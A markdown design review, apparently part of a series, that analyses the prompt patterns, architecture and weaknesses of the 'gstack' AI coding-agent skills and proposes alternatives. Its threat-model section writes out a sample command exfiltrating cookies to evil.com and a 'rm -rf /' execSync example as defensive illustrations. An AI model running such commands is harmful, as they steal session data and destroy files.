

# HƯỚNG DẪN CHẾ TẠO VŨ KHÍ - PART 2
## UX Patterns + Anti-patterns

**Tiếp nối:** PART 1 (Infrastructure)
**Tổng hợp:** Châu UX + Mộc Anti-patterns

---

# PHẦN 3: UX PATTERNS (Châu UX Analysis)

## 3.1 COGNITIVE MODE ENFORCEMENT

gstack không prompt khác nhau — nó **CONSTRAIN solution space** qua output requirements.

### 3.1.1 `/plan-ceo-review` — Founder Mindset

**Mental Model Enforced:**
- Line 20-22: "Make it extraordinary" / "Push scope UP" / "Permission to dream"
- Line 23-25: Three modes (EXPANSION/HOLD/REDUCTION) with hard commitments

**Output Requirements:**
```markdown
## 10x Check (EXPANSION mode only)
- What's the Platonic ideal of this feature?
- What would make users say "WOW"?

## Error/Rescue Map (all modes)
METHOD | EXCEPTION | RESCUED? | USER SEES
-------|-----------|----------|----------
(every method must have row)

## Failure Modes Registry (all modes)
CODEPATH | RESCUED? | TEST? | USER SEES? | LOGGED?
---------|----------|-------|------------|--------
(any row with RESCUED=N, TEST=N → CRITICAL GAP)
```

**Why This Works (Châu):**
- Tables FORCE complete thinking (can't hand-wave)
- LLM must fill every cell → no skipping edge cases

**Mộc's Attack:**
- ❌ **MODE DRIFT:** Prompt text = wish, not constraint (LLM probabilistic, ~95% compliance)
- Exploit: User picks EXPANSION → Section 4 LLM forgets → recommends "defer error handling" (= REDUCTION)
- ✅ Fix: Structured output validation
  ```yaml
  mode_check:
    - For EVERY recommendation, ask: "Is this EXPANSION-aligned? YES/NO"
    - If NO → stop, re-evaluate
  ```

---

### 3.1.2 `/review` — Paranoid Reviewer

**Mental Model Enforced:**
- Line 18-19: "Structural issues tests don't catch" (not style, not opinions)
- Line 61-68: Two-pass (CRITICAL first, then INFORMATIONAL)

**Output Requirements:**
```markdown
## Pass 1 (CRITICAL) — ask user Fix/Acknowledge/FP
- SQL safety, race conditions, LLM trust boundaries

## Pass 2 (INFORMATIONAL) — output only
- Conditional side effects, magic numbers, test gaps
```

**Why This Works:**
- Binary gate: CRITICAL blocks ship, INFORMATIONAL doesn't
- Prevents "boy who cried wolf" (too many non-blocking alerts = ignored)

**Mộc's Attack:**
- ❌ **VAGUE TAXONOMY:** "Structural issues" undefined
- Run 1: Flags "missing index" as structural
- Run 2: Skips "missing index" as opinion
- ✅ Fix: Explicit taxonomy
  ```markdown
  **Structural** (flag these):
  - SQL injection, XSS, CSRF
  - Race conditions, N+1 queries, missing indexes
  - LLM output trust boundaries

  **NOT structural** (skip):
  - Variable naming, function length, comment quality
  ```

---

## 3.2 PROMPT ENGINEERING PATTERNS

### 3.2.1 Instruction Clarity

**Numbered steps everywhere:**
- `/plan-ceo-review`: Step 0 → Sections 1-10
- `/ship`: Steps 1-8
- `/qa`: Phases 1-6

**Bold for critical rules:**
```markdown
**non-interactive, fully automated** — Do NOT ask for confirmation
**One issue = one AskUserQuestion call.** Never combine multiple issues.
**Repro is everything.** Every issue needs at least one screenshot. No exceptions.
```

**Code blocks for commands:**
```bash
git log --oneline -20
git diff --cached
```

**Pattern:** Imperative mood + specific verbs
- "Run these commands" (not "you should run")
- "Flag any unhandled edge case" (not "consider flagging")

---

### 3.2.2 Conditional Logic

**"If X, do Y" patterns:**
```markdown
**If there are merge conflicts:**
- Try auto-resolve simple conflicts (VERSION, CHANGELOG)
- **If conflicts are complex:** STOP, show conflicts

**If no PR exists or zero Greptile comments:**
- Skip silently

**If CRITICAL issues found:**
- Ask user: A) Fix now, B) Acknowledge, C) False positive
```

**Nested conditionals with escape hatches:**
```markdown
**If NEEDS_SETUP:** tell user, run ./setup
**If META:UPDATE_AVAILABLE:** tell user, STOP, wait for approval
```

**Pattern:** Explicit ELSE clauses
- Not just "if X do Y" but "if X do Y. Otherwise do Z."

---

### 3.2.3 Stop Conditions

**STOP keyword (caps):**
- Used 40+ times across skills
- `/plan-ceo-review` line 135: "**STOP.** Do NOT proceed until user responds."

**Explicit continue conditions:**
```markdown
**If all tests pass:** Continue silently — just note counts briefly.
**If no matches:** Print message and continue to Step 3.5.
```

**Negative stop conditions (never stop for):**
```markdown
**Never stop for:**
- Uncommitted changes (auto-include)
- Version bump choice (auto-decide MICRO/PATCH)
- CHANGELOG content (auto-generate)
```

**Pattern:** Binary gates
- Every decision point has: (1) stop trigger, (2) action if stopped, (3) action if not stopped

---

### 3.2.4 Priority Hierarchies

**Explicit "never skip" lists:**
```markdown
**Never skip:**
- Step 0 (scope challenge)
- System audit (git log, diff, stash)
- Error/rescue map
- Failure modes section
```

**CRITICAL vs INFORMATIONAL gates:**
- `/review` checklist.md:
  - CRITICAL (line 33-50): SQL safety, race conditions, LLM trust
  - INFORMATIONAL (line 52-110): all others

**Compression instructions:**
```markdown
**Priority Hierarchy Under Context Pressure:**
1. Step 0 (scope challenge)
2. System audit
3. Error/rescue map
4. Failure modes
5. Everything else
```

**Pattern:** "Must have" vs "nice to have" explicitly stated
- Not implicit through ordering — explicitly labeled P0/P1/P2

---

## 3.3 USER INTERACTION PROTOCOLS

### 3.3.1 AskUserQuestion Usage

**One question per issue (never batch):**
```markdown
**One issue = one AskUserQuestion call.** Never combine multiple issues.

Exception: SMALL CHANGE mode (intentionally batches 1 issue per section)
```

**When NOT to ask:**
```markdown
If no issues or fix is obvious:
- State what you'll do
- Move on — don't waste a question
```

**Mộc's Attack:**
- ❌ **COGNITIVE OVERLOAD at >10 issues**
- HCI research:
  - Miller's Law: Working memory holds 7±2 items
  - Hick's Law: 10 sequential decisions = **3x slower** than 1 batched decision
- Real scenario: 15 questions × (5s latency + 3s decision) = **2 minutes**, user forgets context by question #10
- ✅ Fix: Tiered batching
  ```markdown
  **CRITICAL (must address):**
  1. Race condition → Add transaction
  2. SQL injection → Use parameterized query
  3. LLM output trusted → Add validation

  Auto-recommending fixes above. Reply STOP to review individually.

  **MEDIUM (recommend addressing):**
  4-10. [7 issues]

  Recommend all 7? A) Yes, B) Review each, C) Skip all
  ```
  → ONE decision, 10x faster

---

### 3.3.2 Option Format

**Always lettered (A/B/C) with recommendation FIRST:**
```markdown
We recommend B: [one-line reason]

A) [option] — [effort, risk, maintenance in one line]
B) [recommended] — [tradeoffs]
C) [alternative] — [tradeoffs]
```

**One sentence max per option:**
```markdown
Keep each option to one sentence max.
User should pick in under 5 seconds.
```

---

### 3.3.3 Evidence Requirements

**File:line citations mandatory:**
```markdown
Be specific — cite `file:line` and suggest fixes.
Describe problem concretely with file and line references.
```

**Screenshots for QA issues:**
```markdown
**Repro is everything.**
Every issue needs at least one screenshot. No exceptions.

- Interactive bugs: before + after screenshots + diff
- Static bugs: single annotated screenshot
```

**Commit SHAs for "already fixed":**
```markdown
VALID BUT ALREADY FIXED — identify the fixing commit SHA

Reply: "Good catch — already fixed in <commit-sha>."
```

**Pattern:** No vague descriptions
- "Race condition at user.rb:47" not "there's a race condition somewhere"
- "Screenshot at /tmp/issue-001.png" not "the page looks broken"

---

## 3.4 OUTPUT FORMATTING PATTERNS

### 3.4.1 Tables

**Error/Rescue Mapping (`/plan-ceo-review`):**
```markdown
METHOD/CODEPATH | WHAT CAN GO WRONG | EXCEPTION CLASS
----------------|-------------------|----------------
ExampleService  | API timeout       | Faraday::TimeoutError

EXCEPTION CLASS      | RESCUED? | RESCUE ACTION | USER SEES
---------------------|----------|---------------|----------
Faraday::TimeoutError| Y        | Retry 2x      | "Service unavailable"
```

**Failure Modes Registry:**
```markdown
CODEPATH | FAILURE MODE | RESCUED? | TEST? | USER SEES? | LOGGED?
---------|--------------|----------|-------|------------|--------

Any row with RESCUED=N, TEST=N, USER SEES=Silent → **CRITICAL GAP**
```

**Pattern:** Table = scannable data, prose = interpretation

**Mộc's Attack:**
- ❌ **ASCII DIAGRAM = TOKEN WASTE** (500 tokens for flowchart)
- Example:
  ```
  INPUT ──▶ VALIDATION ──▶ TRANSFORM ──▶ PERSIST
    │            │              │            │
    ▼            ▼              ▼            ▼
  [nil?]    [invalid?]    [exception?]  [conflict?]
  ```
  vs YAML (100 tokens):
  ```yaml
  pipeline:
    - step: INPUT
      failure: nil?
    - step: VALIDATION
      failure: invalid?
  ```
- 5x more efficient, PARSEABLE by LLM
- ✅ Fix: Use ASCII only for complex topology (>5 decision points), YAML for linear flows

---

### 3.4.2 Checklists

**`/review` checklist.md structure:**
```markdown
## Pass 1 (CRITICAL)
- SQL injection, XSS, CSRF
- Race conditions, deadlocks
- LLM output trust boundaries

## Pass 2 (INFORMATIONAL)
- Conditional side effects
- Magic numbers
- Test gaps

## Suppressions (DO NOT flag)
- "X is redundant with Y" when harmless
- "Add comment explaining threshold" — comments rot
- "Assertion could be tighter" when already covers behavior
```

**Pattern:** Checklists are exhaustive, not suggestive
- Not "consider checking X" but "check X. check Y. check Z."
- Forces systematic coverage

---

### 3.4.3 Suppressions (Anti-Noise)

**Explicit "DO NOT flag" list (checklist.md):**
```markdown
**DO NOT flag:**
- Redundancy when harmless
- Comment suggestions (they rot)
- Tighter assertions when existing covers behavior
- Eval threshold changes (tuned empirically)
- **ANYTHING already addressed in the diff**
```

**Greptile history file (dynamic suppressions):**
```markdown
# ~/.gstack/greptile-history.md
<date> | <repo> | fp | <file-pattern> | <category>

2026-03-15 | owner/repo | fp | auth.rb:47 | timing-attack
```

**Pattern:** Suppressions evolve from user feedback
- User marks "C) False positive" → saved to history
- Next run auto-skips same pattern
- System learns what's noise for this codebase

**Mộc's Attack:**
- ❌ **MANUAL TOIL:** 100 FPs after 6 months = 10 min manual review per PR
- ✅ Fix: Embeddings-based auto-skip
  ```python
  # On FP mark:
  context = get_code_context(file, line, window=5)
  embedding = model.encode(context)
  fp_db.insert(embedding, category='timing-attack')

  # Next run:
  similarity = cosine_similarity(new_embedding, fp_db.search(category))
  if similarity > 0.9: auto_skip()  # Zero manual work
  ```

---

## 3.5 WORKFLOW TAXONOMIES

### 3.5.1 Linear Workflows

**`/ship` (Steps 1-8):**
- Pre-flight → Merge → Tests → Evals → Review → Greptile → Version → Changelog → Commit → Push → PR
- Each step runs to completion before next
- Early exit on failure (tests fail → stop, don't continue)

**Pattern:** Pipeline with early-exit gates

---

### 3.5.2 Multi-Pass Workflows

**`/review` (two-pass):**
1. **Pass 1 (CRITICAL):** SQL safety, race conditions → blocks ship
2. **Pass 2 (INFORMATIONAL):** All other categories → included in PR body

**`/plan-ceo-review` (sections):**
- **First pass:** Step 0 + System Audit (gather context)
- **Second pass:** Sections 1-10 (apply context)
- **Third pass:** TODOS.md updates (synthesize)

**Pattern:** Critical path first, then enrichment

---

### 3.5.3 Conditional Workflows

**`/qa` diff-aware mode:**
```markdown
**If on feature branch + no URL:**
- Auto-enter diff-aware mode
- Analyze git diff → identify affected routes → test them

**Otherwise:**
- Use provided URL or ask
```

**`/ship` eval suites:**
```markdown
**If diff touches prompt files:**
- Run affected eval suites at EVAL_JUDGE_TIER=full

**If no prompt files changed:**
- Skip entirely
```

**Pattern:** Skip entire sections when not applicable
- Not "run but return empty" — don't run at all
- Reduces token usage + latency

---

## 3.6 LEARNING MECHANISMS

### 3.6.1 History Files

**Greptile history (`~/.gstack/greptile-history.md`):**
```markdown
<YYYY-MM-DD> | <owner/repo> | <type:fp|fix|already-fixed> | <file-pattern> | <category>
```

**Learning:** Suppressions check new comments against history
**Evolution:** User marks FP → saved → future runs skip

**Retro snapshots (`.context/retros/`):**
```json
{
  "date": "2026-03-15",
  "commits": 47,
  "test_ratio": 0.41,
  "authors": {...}
}
```

**Learning:** Week-over-week deltas
**Evolution:** Trend tracking (test ratio ↑19pp)

**Pattern:** Persistent state enables learning loops

---

### 3.6.2 Trend Tracking

**`/retro` week-over-week:**
```markdown
                Last    Now     Delta
Test ratio:     22%  →  41%     ↑19pp
Sessions:       10   →  14      ↑4
LOC/hour:       200  →  350     ↑75%
```

**Greptile signal tracking:**
```markdown
Signal ratio = (fix + already-fixed) / (fix + already-fixed + fp)

Tracks whether Greptile getting better or noisier over time
```

**Pattern:** Numeric metrics → trends → actionable insights

---

# PHẦN 4: ANTI-PATTERNS (Mộc Adversarial Review)

## 4.1 COVERAGE AUDIT

**Phúc missed (15/23 issues = 65%):**
- P0: State race, port collision, mode drift, scalability
- P1: 58MB binary, ref invalidation, user fatigue, diagram waste, FP toil

**Châu missed (8/23 issues = 35%):**
- P0: Mode drift enforcement gap
- P1: "One question per issue" UX nightmare, ASCII token waste, manual FP

**Files Phúc MISSED:**
```
❌ browse/src/cookie-picker-ui.ts
❌ browse/src/cookie-picker-routes.ts
❌ browse/test/*.test.ts (7 files) — only described pattern, no code analysis
```

---

## 4.2 ARCHITECTURAL ANTI-PATTERNS

### 4.2.1 58MB Binary Problem

**Phúc's claim:** "~58MB (not yet optimized)"

**Mộc's attack:**
- ❌ **NO JUSTIFICATION FOR BUNDLING**
- Alternatives:
  1. Require Bun globally (size: 0 bytes)
  2. WASM Playwright (size: ~5MB, not production-ready)
  3. Lazy-load Playwright (download on first use, like Playwright's own installer)
  4. Ship as npm package (size: 8MB code only)

**Why 58MB matters:**
- GitHub max without LFS: 100MB (you're at 58%)
- npm package limit (practical): 10MB (you're 5.8x over)
- CDN bandwidth: 1,000 downloads/day × 58MB × 30 days = **1.74TB/month** (~$20/month)

**Superior alternative:**
```bash
# Nash model
1. Ship skill as git repo (8MB TypeScript source)
2. setup: `bun install` (downloads Playwright ONCE per system)
3. Compiled binary cached in ~/.cache/nash-skills/browse/
4. Updates: `git pull && bun run build`

# Size: 8MB per skill (vs 158MB gstack)
```

---

### 4.2.2 Random Port Collision Risk

**Phúc's claim:** "Random port with 5 retries, 10K-60K range"

**Mộc's attack:**
- ❌ **COLLISION PROBABILITY NEVER CALCULATED**
- Math (Birthday paradox):
  - N=10: 0.1% risk
  - N=50: 2.5% risk
  - N=100: **10% risk** → "browse randomly fails 10% of time with 100 repos"

**Superior alternatives:**
- **Unix socket:** Zero collision, ~10% faster
  ```typescript
  const server = Bun.serve({ unix: socketPath, ... });
  ```
- **Kernel-assigned port:** OS handles collision
  ```typescript
  const server = Bun.serve({ port: 0, ... }); // Ephemeral port
  ```
- **Port lock file:** Atomic reservation via flock
  ```typescript
  const fd = fs.openSync(`/tmp/browse-port-${port}.lock`, 'w');
  fs.flockSync(fd, 'ex', 'nb'); // Exclusive non-blocking
  ```

---

### 4.2.3 State File Race Condition

**Phúc's claim:** "Atomic write: .tmp → rename"

**Mộc's attack:**
- ❌ **P0 CRITICAL: NO LOCKING**
- Exploit (parallel CLI calls):
  ```bash
  # T0: CLI1 reads state (PID=1234, port=12000)
  # T1: CLI2 reads state (PID=1234, port=12000) [SAME]
  # T2: Server crashes
  # T3: CLI1 starts NEW server (PID=1235, port=12001), writes state
  # T4: CLI2 starts ANOTHER server (PID=1236, port=12002) [DUPLICATE]
  # T5: CLI2 writes state [OVERWRITES CLI1]
  # Result: TWO servers, CLI1 lost its server
  ```

**Why "atomic write" DOESN'T prevent race:**
- `renameSync()` atomic for SINGLE writer
- TWO CLIs can BOTH create `.tmp` → BOTH rename → last writer wins

**Superior alternative:**
```typescript
const lockFd = fs.openSync(stateFile + '.lock', 'w');
fs.flockSync(lockFd, 'ex'); // Blocks until available
// Critical section: read → decide → start → write
fs.flockSync(lockFd, 'un');
```

---

### 4.2.4 CircularBuffer Overkill

**Phúc's claim:** "50K entries = ~5MB per buffer, Total: ~15MB"

**Mộc's attack:**
- ❌ **50K = OVERKILL**
- Actual usage: 10 logs/sec × 50K entries = **83 minutes** of buffer
- Flush: Every 1s, but buffer NEVER shrinks
- Memory leak: Server running 7 days → buffer pinned at 50K × 100 bytes = 5MB forever

**Superior alternative:**
- Reduce: 50K → 5K (500KB RAM, 8 min buffer)
- Add TTL eviction:
  ```typescript
  clearOlderThan(maxAge: number): void {
    while (this._size > 0) {
      if (this.buffer[this.head].timestamp >= Date.now() - maxAge) break;
      this.buffer[this.head] = undefined; // Free memory
      this.head++; this._size--;
    }
  }
  ```

---

### 4.2.5 Ref Invalidation: Navigation Only

**Phúc's claim:** "Clear ref map on navigation"

**Mộc's attack:**
- ❌ **INCOMPLETE INVALIDATION**
- What DOESN'T trigger clear:
  1. React/Vue SPA re-renders
  2. AJAX content injection
  3. Infinite scroll
  4. Modal dialogs
- Exploit:
  ```bash
  browse snapshot  # @e1 = "Load More" button
  # User clicks "Load More" via mouse (NOT browse)
  # → DOM shifts, @e1 now points to item #3 title
  browse click @e1  # Clicks WRONG element, no error
  ```

**Superior alternatives:**
- **DOM hash validation:**
  ```typescript
  refMap.set('e1', { locator, domHash: firstKBofDOM });
  // Before action: verify current DOM hash matches
  ```
- **TTL expiration:**
  ```typescript
  if (Date.now() - ref.createdAt > 60_000) {
    throw new Error('Ref expired. Run snapshot again.');
  }
  ```
- **Element validation:**
  ```typescript
  const currentLabel = await locator.ariaLabel();
  if (currentLabel !== ref.expectedLabel) {
    throw new Error(`Element changed`);
  }
  ```

---

## 4.3 UX ANTI-PATTERNS

### 4.3.1 "One Question Per Issue" = User Fatigue

**Châu's claim:** "One question per issue (never batch)"

**Mộc's attack:**
- ❌ **COGNITIVE OVERLOAD at >10 issues**
- HCI research:
  - Miller's Law (1956): Working memory = 7±2 items
  - Hick's Law (1952): 10 sequential = **3x slower** than 1 batched
- Real scenario: 15 questions × 8s = **2 minutes**, user forgets #1 by #10
- Error rate: By question #10, user clicking 'A' without reading (decision fatigue)

**Superior alternative:** Tiered batching
```markdown
**CRITICAL (must address):**
1. Race condition → Add transaction
2. SQL injection → Use parameterized query

Auto-recommending. Reply STOP to review individually.

**MEDIUM (recommend):**
3-9. [7 issues]

Recommend all? A) Yes, B) Review each, C) Skip all
```
→ ONE decision, 10x faster

---

### 4.3.2 ASCII Diagrams = Token Waste

**Châu's claim:** "Diagrams force hidden assumptions into the open"

**Mộc's attack:**
- ❌ **500 TOKENS for flowchart = 5x waste**
- Example:
  ```
  INPUT ──▶ VALIDATION ──▶ TRANSFORM
    │            │              │
    ▼            ▼              ▼
  [nil?]    [invalid?]    [exception?]
  ```
  ASCII: 250 tokens
  vs YAML: 50 tokens
  ```yaml
  pipeline:
    - step: INPUT
      failure: nil?
  ```
- Information density: 50 tokens/step (ASCII) vs 10 tokens/step (YAML)
- Semantic value: ASCII = USELESS TO LLM (cannot parse), YAML = parseable

**When ASCII IS useful:**
- Showing USER (PR body, docs)
- Complex topology (20+ nodes)

**When ASCII is WASTE:**
- Linear pipelines (better as list)
- LLM-to-LLM communication (use JSON/YAML)

**Superior alternative:** Conditional diagram
```markdown
**For linear flows (<5 steps):** Use ordered list, not diagram.

**For branching flows (>5 decision points):** Use ASCII diagram.

**For state machines:** Use Mermaid (parseable):


---

### 4.3.3 Greptile FP Manual Toil

**Châu's claim:** "Greptile history → future runs auto-skip"

**Mộc's attack:**
- ❌ **MANUAL TOIL = 100 FPs after 6 months = 10 min/PR**
- Current flow:
  1. Greptile flags "Use constant-time comparison" line 47
  2. User reviews → marks FP
  3. History: `2026-03-15 | repo | fp | auth.rb:47 | timing`
  4. Next run: Greptile flags SAME PATTERN line 89
  5. User reviews AGAIN → marks FP AGAIN
- Failure modes:
  - Pattern drift (Greptile updates → old FP patterns invalid)
  - Cross-repo pollution (FP in repo A ≠ FP in repo B)
  - No confidence score

**Superior alternative:** Embeddings-based
```python
# On FP mark:
context = get_code_context(file, line, window=5)
embedding = model.encode(context)
fp_db.insert(embedding, category='timing-attack')

# Next run:
similarity = cosine_similarity(new_embedding, fp_db)
if similarity > 0.9: auto_skip()
elif similarity > 0.7: ask_with_hint("Similar to previous FP?")
```
→ Zero manual work for similar patterns

---

### 4.3.4 Mode Drift: Prompt Text ≠ Enforcement

**Châu's claim:** "Once user selects mode, COMMIT to it."

**Mộc's attack:**
- ❌ **P0: NO ENFORCEMENT**
- Prompt text:
  ```markdown
  Critical rule: Once user selects mode, COMMIT.
  Do not silently drift from EXPANSION to REDUCTION.
  ```
- This = WISH, not CONSTRAINT (LLMs probabilistic, ~95% compliance)
- Drift scenario:
  ```
  User: EXPANSION mode
  [Claude runs Sections 1-3 correctly]
  [Section 4: Data Flow]
  Claude: "For upload → classify, handle happy path.
           Defer error handling to v2." ← THIS IS REDUCTION
  ```
- Why drift? At Section 4, "EXPANSION mode" is 10K tokens away → LLM forgets

**Superior alternative:** Structured output validation
```yaml
# Append to EVERY section:
**Mode reminder:** You are in EXPANSION mode.
For EVERY recommendation, ask:
- "What's the 10x version?" (not "what's MVP?")
- "What delights user?" (not "what ships fastest?")

If you propose deferring work → you've drifted. Stop.

# Better: JSON schema enforcement
{
  "mode": "EXPANSION",  # Set once at Step 0
  "sections": [
    {
      "recommendations": [
        { "mode_check": "Is this EXPANSION-aligned? YES/NO" }
      ]
    }
  ]
}
```

---

## 4.4 CODE SMELLS

**Type safety: 27 occurrences of `any`**
```typescript
const health = await resp.json() as any;  // Should be HealthResponse
catch (err: any) { ... }  // Should be Error | NetworkError
```

**Empty catch blocks: 47 occurrences**
```typescript
} catch {
  // Dialog may have been dismissed — ignore
}
```
- 4 documented (acceptable)
- 43 undocumented (risky)

**Dialog handler resource leak:**
```typescript
page.on('dialog', async (dialog) => {
  addDialogEntry(entry);  // May throw
  await dialog.accept();  // NEVER called if throw
});
```
→ Browser LOCKS UP (confirm dialog blocks JS thread)

**Magic numbers: 6 unexplained constants**
```typescript
const HIGH_WATER_MARK = 50_000;  // WHY?
const MAX_START_WAIT = 8000;     // WHY 8s?
const IDLE_TIMEOUT_MS = 1800000; // WHY 30 min?
```

---

## 4.5 PROMPT SMELLS

**Vague instructions:**
```markdown
"Structural issues" — what does this mean?
```
- Run 1: Flags "missing index" as structural
- Run 2: Skips as opinion
- ✅ Fix: Explicit taxonomy

**Missing error handling:**
```bash
git log --oneline -20
git diff --cached
```
- No fallback if git fails (not a repo, .git corrupted, detached HEAD)
- ✅ Fix:
  ```bash
  git log --oneline -20 2>&1 || echo "ERROR: git failed"
  ```

**Hardcoded assumptions:**
```bash
cd <SKILL_DIR> && ./setup
# If bun not installed: curl -fsSL https://bun.sh/install | bash
```
- ❌ Assumes UNIX (Windows = 40% developers)
- ✅ Fix: Cross-platform instructions

**Conflicting instructions:**
```markdown
# Global (line 20):
"Make it extraordinary, push scope UP"

# Mode-specific (line 109):
"HOLD SCOPE — don't expand"
```
- Which wins? Depends on LLM attention (primacy effect: first instruction has 1.5x weight)
- ✅ Fix: Mode-scoped instructions (remove global "dream big")

---

## 4.6 MISSING CRITICAL ANALYSIS

### Security: NO Threat Model

**Attack surface:**
1. **HTTP on localhost:** No TLS, if attacker gains localhost access:
   - Read auth token from `.gstack/browse.json`
   - Send arbitrary commands: `POST /command { "js": "fetch('evil.com', { body: document.cookie })" }`
   - Exfiltrate cookies, localStorage, session data

2. **Cookie decryption:** Requires user approval ONCE, then:
   - All cookies decrypted in BrowserContext
   - `browse cookies` → full cookie dump (session hijacking)

3. **Arbitrary code exec:**
   ```bash
   browse js "require('child_process').execSync('rm -rf /')"
   ```
   - No sandbox, no CSP, no permission prompt

**Mitigations MISSING:**
- Token rotation (fixed per server lifetime, no revocation)
- Command whitelist (no distinction read-only vs write)
- Audit log (no record of who ran what)

---

### Performance: NO P99 Latency

**Phúc's claim:** "Warm path: ~100ms"

**Mộc's question:** What's P99? Max? Variance?

**Scenarios that break P50:**
1. First snapshot after navigation: ARIA tree = **2-5s** on Twitter feed
2. Screenshot with annotations: **10+ seconds** on long pages
3. Network log flush during command: **50-200ms** contention

**What should be measured:**
- P50/P90/P95/P99 latency per command type
- Breakdown by page complexity (simple HTML vs React SPA)
- Memory profiling over 7-day lifetime

**Why this matters:** Nash runs parallel agents → 100ms vs 5s variance = agents DESYNC

---

### Testing: ZERO Coverage %

**Phúc's claim:** "Integration tests" (7 files)

**Mộc's questions NEVER ASKED:**
1. Code coverage % — what % of src is tested?
2. Test distribution — happy path? Edge cases? Error paths?
3. Flaky tests — 100% pass rate or 95%?
4. Missing scenarios:
   - Server crash during command
   - Parallel CLI calls
   - Network partition
   - Disk full

---

### Scalability: What Breaks at 100 Concurrent?

**Scenario:** Nash Framework with 100 parallel agents using browse

**Bottlenecks:**
1. **Port exhaustion:** 100 servers × random port = 0.2% collision (acceptable?)
2. **Chromium memory:** 100 processes × 200MB = **20GB RAM** (doesn't fit 16GB machine)
3. **Playwright licenses:** Concurrent process limits? UNKNOWN
4. **File descriptors:** 100 servers × 4 FDs = 400 (macOS ulimit = 256 → BREAKS)

**Mitigations MISSING:**
- Shared browse server (1 server, multi-tenancy with tabs per repo)
- Resource pooling (cap at 10 Chromium, queue if busy)
- Graceful degradation (fallback to puppeteer if Playwright unavailable)

---

## 4.7 SUPERIOR ALTERNATIVES

### npm Package (vs 58MB Binary)

**Current:**
```bash
git clone https://github.com/garrytan/gstack.git  # 158MB
cd gstack && ./setup
```

**Alternative:**
```bash
npm install -g @gstack/browse  # 8MB package
# Chromium shared across all Playwright users

package.json:
{
  "peerDependencies": { "playwright": "^1.58.0" },
  "postinstall": "npx playwright install chromium"
}
```
→ 7x smaller, industry-standard distribution

---

### Unix Socket (vs Random Port)

**Current:**
```typescript
const port = 10000 + Math.floor(Math.random() * 50000);
const server = Bun.serve({ port, hostname: '127.0.0.1' });
```

**Alternative:**
```typescript
const socketPath = path.join(config.stateDir, 'browse.sock');
const server = Bun.serve({ unix: socketPath });
// CLI connects: fetch(`unix://${socketPath}/command`)
```
→ Zero collision, 10% faster, simpler security

---

### Tiered Batching (vs One Question Per Issue)

**Current:**
```markdown
Issue 1: Race condition. A) Fix, B) Defer, C) Skip
[User answers]
Issue 2: Missing index. A) Fix, B) Defer, C) Skip
[User answers]
... [13 more] → 2 minutes
```

**Alternative:**
```markdown
**AUTO-FIX (applying):**
✓ Race condition → Add transaction (P0)
✓ SQL injection → Use parameterized (P0)

**RECOMMEND (1 decision):**
A) Do all 7, B) Review each, C) Skip all
- Missing index (P1)
- N+1 query (P1)
... [7 issues]
```
→ ONE decision, 2 seconds

---

### Embedding-Based FP (vs Manual Tagging)

**Current:**
```bash
# Greptile flags auth.rb:47 → User marks FP
# Next run: auth.rb:89 → User marks FP AGAIN
```

**Alternative:**
```python
# On FP: embed context, save to db
embedding = model.encode(get_context(file, line, window=5))
fp_db.insert(embedding, label='timing-attack-FP')

# Next run: compare similarity
if cosine_similarity(new, fp_db) > 0.9: auto_skip()
```
→ ZERO manual work for similar patterns

---

## 4.8 NASH INCOMPATIBILITIES

### Single Browse Server vs Parallel Agents

**gstack:** 1 server per project, commands SERIAL

**Nash:** Thesis + Anti-Thesis run IN PARALLEL

**Conflict:**
```
T0: Thesis: browse goto app.com
T1: Anti-Thesis: browse goto evil.com  [RACES]
T2: Thesis: browse snapshot  [Sees evil.com, not app.com]
```

**Mitigation:**
- **Multi-tab:** Thesis=tab1, Anti-Thesis=tab2 (requires tab affinity)
- **Separate servers:** 1 server per agent (requires dynamic port, state isolation)

---

### Ephemeral Refs vs L2 Cache

**gstack:** Refs cleared on navigation (ephemeral)

**Nash:** L2 Cache = ALWAYS LOADED (<500 tokens)

**Conflict:**
- Agent stores in L2: "Use @e3 for submit button"
- After navigation, @e3 STALE (cleared)
- Agent re-uses from cache → WRONG ELEMENT

**Mitigation:**
- Mark refs EPHEMERAL in cache metadata
- Encode URL + DOM hash: `@e3:app.com:abc123`
- Don't cache refs, cache LOCATOR STRATEGY: `getByRole('button', {name: 'Submit'})`

---

### No Zero-Sum Scoring

**Nash:** P0=±30, P1=±20, LEDGER = immutable

**gstack:** Skills OUTPUT findings, NO scoring

**Conflict:**
- Nash Triad requires adversarial agents (Anti-Thesis PUNISHED if misses bugs)
- gstack `/review` has NO PUNISHMENT for missing issues

**Mitigation:**
- Add eval suite: known bugs in test repos
- Score: Found 8/10 = +16, Missed 2 = -40 (P1 × 2)
- LEDGER: "Mộc reviewed PR #42, found 3 critical (+60), missed 1 race (-20). Net: +40"

---

### Skills Self-Report vs External Validation

**gstack:** `/ship` runs tests, reports "47 runs, 0 failures" (self-approval)

**Nash:** Thesis runs → Anti-Thesis VERIFIES → Synthesis RECONCILES

**Mitigation:**
- Wrap `/ship` in Nash Triad:
  - Thesis: `/ship` (runs tests, creates PR)
  - Anti-Thesis: Re-run tests on PR branch (verifies Thesis didn't skip)
  - Synthesis: User approves PR

---

**END OF PART 2**

👉 **Tiếp theo:** PART 3 — Requirements Gaps + Blueprint + Nash Adaptation
